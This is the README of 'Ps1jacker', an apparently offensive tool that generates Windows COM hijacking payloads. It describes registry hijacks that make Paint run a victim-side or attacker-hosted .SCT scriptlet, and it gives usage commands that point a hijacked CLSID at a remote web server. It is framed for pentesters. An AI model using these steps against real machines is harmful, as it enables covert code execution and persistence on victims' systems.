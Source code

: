 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.
######  WHAT IS COM HIJACKING?
COM Hijacking is a method for an attacker to gain remote code execution or persistence on victims machine, by using legitimate Windows process'. 
The advantage of Ps1jacker is that it uses a method which allows the user to specify his/her script path on Web Server, which means there is no local
storage on victims machine involved in this process. 

######  DEFAULT METHOD [-hd]
The Default method will generate the payload for you without any of your user input. However, there are 2 precautions:
1. It will only work if you grab the file calc.SCT from examples directory and copy it to your victims machine exactly at `C:\\tools\\COM Testing\\`,
as the payload will be generated in a way, where it will expect the .SCT script to be located in that path.
2. This works only with using `MSPAINT.exe` (Paint). Meaning, victim has to open PAINT.exe in order for the payload to trigger.

Once you have done that, you can execute the powershell script on victims machine and it should generate all the registry entries for you.

######  CUSTOM METHOD [-p][-ch][-cf]
With the custom method you may specify your own .SCT script and decide whether:
1. Host it on your webserver: in this case you have to specify the path to the file on your server, eg. `http://<your_webserver_ip>/<your_sct_script>`
2. Host it on your victim's machine: in this case you specify the path where your .SCT script is residing on your victim's machine.
You also have to specify your own CLSID which you will hijack.
Same goes for the unique Fake CLSID. And remember, it has to be really unique, otherwise you will trigger an existing process in Windows instead of your
script.

######  DISCLAIMER: 
Please do not use this tool for illegal activities. This tools should be used by pentesters to ease the generation of payload for COM Hijacking technique.

## WARNING: This tool is still in heavy development - only one functionality is currently in testing!

######  TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

######  TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


